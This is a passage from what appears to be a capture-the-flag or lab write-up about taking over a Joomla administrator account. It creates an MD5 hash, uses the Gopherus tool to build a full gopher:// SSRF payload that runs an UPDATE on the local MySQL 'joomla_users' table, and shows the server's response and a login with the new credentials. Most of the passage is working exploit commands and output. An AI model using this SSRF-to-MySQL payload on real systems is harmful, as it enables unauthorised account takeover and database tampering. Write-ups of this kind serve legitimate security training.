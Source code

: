 but we will unable to bruteforce it nevertheless, we can watch data from joomla_users let's try to manipulate first of all we need to create a hash with md5sum example

a
```bash
❯ echo -n "contra123" | md5sum
2109273d6457e96abbe8fb88bf62c074
```
now let's play with gophirus to change the password for user "site_admin"

a
```bash
❯ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: Use joomla; update joomla_users set password='2109273d6457e96abbe8fb88bf62c074' where username='site_admin';

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%6d%00%00%00%03%55%73%65%20%6a%6f%6f%6d%6c%61%3b%20%75%70%64%61%74%65%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%20%73%65%74%20%70%61%73%73%77%6f%72%64%3d%27%32%31%30%39%32%37%33%64%36%34%35%37%65%39%36%61%62%62%65%38%66%62%38%38%62%66%36%32%63%30%37%34%27%20%77%68%65%72%65%20%75%73%65%72%6e%61%6d%65%3d%27%73%69%74%65%5f%61%64%6d%69%6e%27%3b%01%00%00%00%01

it worked  c 5.5.5-10.3.27-MariaDB-0+deb10u1][(VX7GAN��-��FQHRFGnw-u+qmysql_native_password @ joomla0(Rows matched: 1 Changed: 0 Warnings: 0


```

let's try it in the loggin panel 
```bash
crendials=site_admin:contra123
```

and it worked 
